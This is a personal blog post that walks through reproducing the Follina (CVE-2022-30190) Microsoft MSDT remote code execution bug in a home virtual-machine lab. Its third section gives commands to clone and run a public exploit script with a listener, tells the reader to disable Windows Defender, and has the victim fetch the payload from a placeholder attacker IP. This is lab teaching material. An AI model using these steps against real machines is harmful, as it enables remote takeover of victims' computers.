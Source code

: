 ```yaml
---
title:  "Zero-Day CVE-2022-30190 MS-MSDT Follina"
excerpt: "In this post I will show you the MS-MSDT Follina exploit (CVE-2022-30190)"
mathjax: true
layout: post
categories:
    -- github
    -- website
---
```


1 . Introduction
<br>
2 . My Setup
<br>
3 . Exploit in Action!<br>
---

## This post is designed to teach you how to exploit the MS-MSDT Follina vulnerability!

---

### 1. Introduction

*I want to give thanks and credit to **John Hammond** and his work with the Huntress team identifying and showing exactly how this exploit works! Check out his [Youtube](https://www.youtube.com/watch?v=dGCOhORNKRk&ab_channel=JohnHammond) or the Huntress [blog](https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug).*

- At the bottom of this blog post I have a short GIF showing the exploit in action.

- This zero-day is a vulnerability which has been announced and unpatched for the past 2 days as of writing this article.

- The vulnerability takes advantage of the Microsoft Diagnostics Tool (MSDT) and other Microsoft utilities. 

- Basically, the attacker can send you a seemingly harmless word document, however, once you open the document (or even preview pane) the malicious remote code execution happens and the attacker has just infected your computer with a virus, a command and control access point, crypto coin miner, etc. 

---

### 2. My Setup

For my attack computer I ran kali Linux in VMWare Workstation 16 player using NAT and HOST virtualized ethernet adapters.

I ran my victim computer on an evaluation Windows 11 virtualized machine in VMWare Workstation 16 player using a HOST-Only virtualized ethernet adapter.

---

### 3. Exploit in Action!

John Hammond made the exploit accessible via his GitHub [here](https://github.com/JohnHammond/msdt-follina) as a simple python script which creates the malicious file, opens a listener, and hosts the malicious file.

**Prior to starting the exploit**

You may have malware protection and defender services for your endpoint hosting these Virtual Machines. It may stop your virtual machines from transferring and running the python script. Therefore, at your discretion you may need to turn off these services to see the functional exploit. 

*Proceed at your own risk*

**On Attack Device**


    #Step 1: 

    git clone https://github.com/JohnHammond/msdt-follina.git

    #Step 2:
    python3 Follina.py -r <port number of choice>

**On victim**

    #Step 3: Disable Windows Defender Real-Time Protection
![realtime](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/real-time.PNG)

    #Step 4: Open Powershell

    #Step 5:
    wget <attackerIP>:<port chosen in step 2>

You should have seen the Microsoft Diagnostics Tool load, and then you received connection at your listener on the attacking computer.

![gif](https://github.com/matthewomccorkle/matthewomccorkle.github.io/blob/a6f21de03fffc6c24b07f22c5f507cfe2e364aa4/_posts/assets/follina.gif)

